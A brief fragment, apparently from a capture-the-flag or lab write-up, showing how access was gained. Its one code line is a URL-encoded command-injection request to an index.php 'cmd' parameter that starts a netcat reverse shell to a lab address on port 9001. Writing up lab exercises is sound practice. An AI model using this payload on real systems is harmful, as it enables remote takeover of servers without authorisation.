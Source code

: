 ## Access

#### Reverse Shell

```
10.10.247.224/assets/index.php?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Ccmd%20-i%202%3E%261%7Cnc%2010.9.3.63%209001%20%3E%2Ftmp%2Ff
```
